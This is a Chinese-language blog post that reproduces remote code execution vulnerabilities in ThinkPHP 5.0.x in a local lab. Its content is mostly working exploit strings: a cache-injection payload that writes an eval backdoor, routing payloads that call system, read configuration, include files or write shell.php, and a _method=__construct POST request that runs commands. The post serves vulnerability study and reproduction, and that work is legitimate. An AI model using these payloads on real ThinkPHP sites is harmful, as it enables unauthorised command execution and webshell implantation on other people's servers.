 ```yaml
---
title: ThinkPHP 5 代码执行漏洞复现+POC
date: 2020-06-09 20:07:59
categories: 
- 漏洞复现
tags: 
- 漏洞
- ThinkPHP 5
- REC
- ThinkPHP
- 漏洞复现
---
```


## ThinkPHP 5.0.10 环境框架搭建

![](1.png)
查看当前版本
![](2.png)
环境搭建成功

<!--more-->
## 缓存类导致RCE

### 版本

    5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

**漏洞利用条件**

1. 基于tp5开发的代码中使用了Cache::set 进行缓存
2. 在利用版本范围内
3. runtime目录可以访问

创建一个生成缓存的页面
![](3.png)
构造payload如下：

    http://127.0.0.1/public/?username=syst1m%0d%0a@eval($_GET[_]);//
    
成功在缓存文件写入payload

![](4.png)

    http://127.0.0.1/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php?_=phpinfo();
![](5.png)

成功执行代码
    
## 未开启强制路由导致rce

### 版本

    5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

`5.1.x ：`

    ?s=index/\think\Request/input&filter[]=system&data=pwd
    ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

`5.0.x ：`

    ?s=index/think\config/get&name=database.username # 获取配置信息
    ?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
    ?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

当前环境版本是5.0.10，构造payload如下：

    http://127.0.0.1/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

![](6.png)
成功执行代码

## method任意调用方法导致rce

### 版本

    5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

构造payload如下：

    POST /index.php?s=index HTTP/1.1
    _method=__construct&filter[]=system&method=get&get[]=whoami

![](7.png)
成功执行代码
## 参考

[Thinkphp5 RCE总结](https://xz.aliyun.com/t/7792#toc-0)
[Thinkphp5 代码执行学习](https://y4er.com/post/thinkphp5-rce)



